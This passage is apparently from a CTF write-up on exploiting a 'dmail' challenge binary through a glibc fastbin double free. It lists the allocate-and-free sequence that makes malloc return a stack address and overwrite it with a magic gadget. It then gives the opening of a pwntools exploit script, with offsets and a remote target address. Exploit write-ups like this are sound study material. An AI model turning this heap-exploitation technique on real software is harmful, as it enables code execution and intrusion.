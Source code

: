 However we can used to the cubby number and set it to a value that will pass the test, in that case `0x38` for the size and `0x40` for the cubby number (other correct combinations can work as long as we stay in the fastchunk range). Here are the steps needed to trick `malloc`:

* decide of a fixed size (e.g. `0x38`) that will be used for all cubbies except `0`;
* create cubby `0` with a small size  and its content to the address of the cubby that we will free twice (cubby `1`);
* create cubby `1`, `2` and `3` (the content is not important);
* delete cubby `1` and `2`, the free list has `[cubby_2_addr cubby_1_addr]`;
* delete cubby `34`, it `free`s the chunk of cubby `1` a second time, the free list has `[cubby_1_addr cubby_2_addr cubby_1_addr]`;
* create cubby `1` with the address of the beginning of the chunk (header) that will be on the stack;
* create cubby `2`, the free list has only the address of cubby `1` left `[cubby_1_addr]`;
* create cubby `1`, when this happens `malloc` looks at the pointer in cubby `1` as if it was a pointer to the next free chunk and stores it in the free list. The next `malloc` will return the address on the stack ( + 16 because of the chunk header);
* create cubby `0x40`, with the address of the [magic gadget][magicgadget].

## Payload

Here is the resulting script:

```python
#!/usr/bin/env python2

from pwn import *

PRINT=False
ARRAY_SIZE = 0x110
ENVIRON_OFFSET = 0x2ce8
RIP_OFFSET = -304
MAGIC_OFFSET = -3641308

r = remote('107.170.17.158', 4201)
#r = remote('192.168.122.218', 4201)
# socat tcp-l:4201,reuseaddr,fork exec:./dmail

def recvuntil(rec, p=PRINT):
    global r
    data = r.recvuntil(rec)
    if p:
        print(data)
    return data

def sendline(msg, p=PRINT):
    global r
    r.sendline(msg)

def sr(rec, msg, p=PRINT):
    recvuntil(rec, p)
    sendline(msg, p)
    if p:
        print(msg)

def send_bad_mail(n, size=257, p=PRINT):
    sr('\n> ', '1', p)
    sr('cubby: ', '{}'.format(n), p)
    sr('length: ', '{}'.format(size), p)

def send_mail(n, size, body, p=PRINT):
    send_bad_mail(n, size, p)
    sr('body: ', body, p)

```

[strtoull]: http://man7.org/linux/man-pages/man3/strtol.3.html
[grsec]: https://en.wikipedia.org/wiki/Grsecurity
[post]: https://sploitfun.wordpress.com/2015/02/10/understanding-glibc-malloc/
[magicgadget]: {% post_url 2016-03-30-Radare2-of-the-Lost-Magic-Gadget %}
[check]: https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=ea97df2cb4b18017bcd0c7278b85b227d6c9f720;hb=HEAD#l3374
[debootstrap]: https://wiki.debian.org/Debootstrap
